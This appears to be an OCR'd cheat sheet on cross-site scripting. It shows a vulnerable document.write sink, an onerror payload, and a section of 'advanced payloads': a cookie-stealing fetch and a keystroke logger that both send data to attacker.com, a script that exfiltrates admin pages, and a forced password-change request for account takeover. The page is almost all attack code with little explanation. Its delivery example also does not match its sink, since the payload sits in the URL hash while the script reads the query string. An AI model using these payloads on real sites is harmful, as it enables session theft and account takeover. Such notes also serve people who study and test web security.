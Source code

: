 ## DOM Sinks

JavaScript functions/properties that unsafely handle user input.

```html
## Unsafe/Unsanitized script
<script>
     let param = new URLSearchParams(location.search).get('input');
     document.write(param); // Vulnerable sink
 </script>
```

```
## Delivery system for payload which is in the input url parameter
https://site.com#input=<img src=1 onerror=alert(1)>

## The script above reads that, and writes this into the DOM without any sanitization
```

## Advanced Payloads

```html
## Session Hijacking:
<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>
   
## Keylogger:
<input onfocus=
document.addEventListener('keypress',e=>fetch('https://attacker.com/log?k='+e.key))>
</input>
```

# PRIVILEGE ESCALATION VIA XSS

## Admin Interface Targeting:

```html
## CSRF Token Theft:
<script>
fetch('/admin').then(r=>r.text()).then(d=>fetch('https://attacker.com/exfil?page='+encodeURIComponent(d)))
</script>
```

## Account Takeover Chains:

```html
##Password Change Exploit:
<script>
     fetch('/account/change-password', {
       method: 'POST',
       body: 'new_password=hacked&confirm=hacked'
     })
</script>
```
